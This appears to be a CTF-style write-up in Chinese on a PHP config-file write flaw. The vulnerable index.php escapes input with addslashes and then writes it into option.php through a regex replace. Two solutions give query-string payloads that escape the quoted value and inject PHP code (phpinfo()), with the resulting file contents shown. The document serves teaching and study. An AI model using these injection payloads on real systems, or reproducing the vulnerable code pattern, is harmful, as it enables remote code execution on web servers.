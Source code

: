 # Challenge
index.php
```php
<?php
$str = addslashes($_GET['option']);
$file = file_get_contents('xxxxx/option.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('xxxxx/option.php', $file);
```
xxxxx/option.php
```php
$option='test';
```
# Solution
流程如下：
1. 对传入的option参数进行addslashes，比如有单引号`'`，会变成`\'`
2. 通过正则匹配xxxxx/option.php中的`$option='xxx';`，将xxx的内容替换为经第一步处理的值
3. 替换完成，将其写入xxxxx/option.php。

场景： 用于写入配置文件等。

## 法一
先访问：
```
?option=aaa';%0aphpinfo();//
```
经过addslashes后，$str值为 `aaa\';%0aphpinfo();//`

进行正则匹配并写入文件，xxxxx/option.php的内容变为:
```php
<?php 
$option='aaa\';
phpinfo();//';
?>
```

再访问：
```
?option=xxx
```
正则匹配时，会将两个单引号里的内容即 `aaa\` ，替换为 `xxx`，此时xxxxx/option.php的内容变为
```php 
<?php
$option='xxx';
phpinfo();//';
?>
```

访问：/xxxxx/option.php

## 法二
访问：
```
?option=aaa\';phpinfo();//
```
经过addslashes后，$str为 `aaa\\';phpinfo();//`

经过正则匹配后,xxxxx/option.php的内容变为：
```
<?php 
$option='aaa\\';phpinfo();//';
?>
```

# Refference 
+ p神的小秘圈
+ [l3m0n：小密圈专题(1)-配置文件写入问题](http://www.cnblogs.com/iamstudy/articles/config_file_write_vue.html)